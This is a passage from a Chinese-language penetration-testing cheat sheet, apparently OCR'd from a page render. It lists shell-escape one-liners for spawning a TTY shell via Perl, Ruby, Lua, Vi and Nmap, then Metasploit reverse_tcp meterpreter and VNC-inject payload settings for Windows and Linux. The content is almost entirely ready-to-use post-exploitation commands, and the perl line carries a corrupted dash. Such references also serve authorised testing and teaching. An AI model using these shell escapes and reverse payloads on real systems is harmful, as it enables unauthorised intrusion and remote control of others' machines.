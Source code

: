 ```text
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```

### 用Ruby模拟 TTY Shell

```text
exec "/bin/sh"
```

### 用Lua 模拟TTY Shell

```text
os.execute('/bin/sh')
```

### 从Vi模拟TTY Shell

```text
:!bash
```

### 用NMAP模拟TTY Shell

```text
!sh
```

## Metasploit 速查表

这是一个metasploit方便的速查手册。关于跳板技术可参看 [Meterpreter Pivoting](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/) 。

### Meterpreter Payloads

### Windows 反向meterpreter payload

| 命令 | 解释 |
| :--- | :--- |
| `set payload windows/meterpreter/reverse_tcp` | Windows 反向tcp payload |

### Windows VNC Meterpreter payload

| 命令 | 解释 |
| :--- | :--- |
| ```set payload windows/vncinject/reverse_tcp``set ViewOnly false``` | Meterpreter Windows VNC Payload |

### Linux 反向Meterpreter payload

| 命令 | 解释 |
| :--- | :--- |
| `set payload linux/meterpreter/reverse_tcp` | Meterpreter Linux 反向Payload |
